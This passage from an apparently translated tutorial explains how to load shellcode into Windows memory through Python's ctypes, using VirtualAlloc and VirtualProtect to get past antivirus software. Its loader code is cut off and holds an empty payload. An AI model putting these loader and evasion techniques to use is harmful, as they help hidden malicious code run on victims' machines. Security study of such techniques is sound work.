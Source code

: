 ![](img/2.png)

​ In the above, it is the most primitive way to apply for a readable, writable and executable memory by calling the `kernel32.dll` dynamic link library. With the change of soft-killing, it has become unavailable, and then a gradual loading mode appears. When reading in `shellcode`, apply for a normal readable and writeable memory page, and then modify its properties to executable through `VirtualProtect`.

```python
# -*-coding:utf-8 -*-
"""
The ctypes library is a module in Python that calls the system dynamic link library functions. The ctypes library can use the C language dynamic link library and pass functions to it.
In the most primitive way, use VirtualAlloc to apply for a readable, writable and executable memory page.
"""
import ctypes

shellcode = bytearray(b'')
ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_uint64

ptr = ctypes.windll.kernel32.VirtualAlloc(
    ctypes.c_int(0),
    ctypes.c_int(len(shellcode)),
```